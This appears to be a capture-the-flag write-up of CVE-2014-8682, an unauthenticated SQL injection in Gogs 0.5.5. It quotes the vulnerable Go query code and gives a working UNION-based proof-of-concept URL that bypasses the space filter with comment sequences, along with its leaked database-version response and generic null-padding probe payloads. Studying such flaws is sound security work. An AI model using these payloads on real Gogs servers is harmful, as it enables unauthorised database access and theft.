 Sql Injection @health from HTB

Vulnerable application is Gogs Git(A selft hosted git service)

App version 0.5.5 beta

Explaining vulnerability

Unauthenticated SQL Injection at
Users and repos search parameter 'q'

Endpoints
```
 /api/v1/users/search
 /api/v1/repos/search
 ```
CVE-2014-8682

Vulnerable Code Section

```go
models/user.go:
[...]
// SearchUserByName returns given number of users whose name contains
keyword.
func SearchUserByName(opt SearchOption) (us []*User, err error) {
    opt.Keyword = FilterSQLInject(opt.Keyword)
    if len(opt.Keyword) == 0 {
        return us, nil
    }
    opt.Keyword = strings.ToLower(opt.Keyword)

    us = make([]*User, 0, opt.Limit)
    err = x.Limit(opt.Limit).Where("type=0").And("lower_name like '%" +
opt.Keyword + "%'").Find(&us)
    return us, err
}
[...]
```
Reson for the Vulnerability

The vulnerability exists because of a string concatination in the SQL query with user supplied data. Because of the SQL filter at the method entry, attackers can't use spaces (0x20) and since v0.5.6.1025-g83283b commas are also filtered.

POC

Request
```
http://www.example.com/api/v1/users/search?q='/**/and/**/false)/**/union/**/
select/**/null,null,@@version,null,null,null,null,null,null,null,null,null,null,
null,null,null,null,null,null,null,null,null,null,null,null,null,null/**/from
/**/mysql.db/**/where/**/('%25'%3D'
```
Response:

```json
{"data":[{"username":"5.5.40-0ubuntu0.14.04.1","avatar":
"//1.gravatar.com/avatar/"}],"ok":
```
Referance [https://www.exploit-db.com/exploits/35238](https://www.exploit-db.com/exploits/35238)

Sql injection filter bypass techniques

Reference 1 : [https://portswigger.net/web-security/sql-injection/union-attacks](https://portswigger.net/web-security/sql-injection/union-attacks)

Reference 2: [https://null-byte.wonderhowto.com/how-to/sql-injection-101-avoid-detection-bypass-defenses-0184918/](https://null-byte.wonderhowto.com/how-to/sql-injection-101-avoid-detection-bypass-defenses-0184918/)

Reference 3: [https://programmer.ink/think/sql-injection-bypass.html](https://programmer.ink/think/sql-injection-bypass.html)

Sql union based injection

Reference [https://crashtest-security.com/sql-injection-union/](https://crashtest-security.com/sql-injection-union/)

If order was failed then do with null injection

```
Order by 1--
UNION SELECT NULL--
UNION SELECT NULL,NULL-- 
```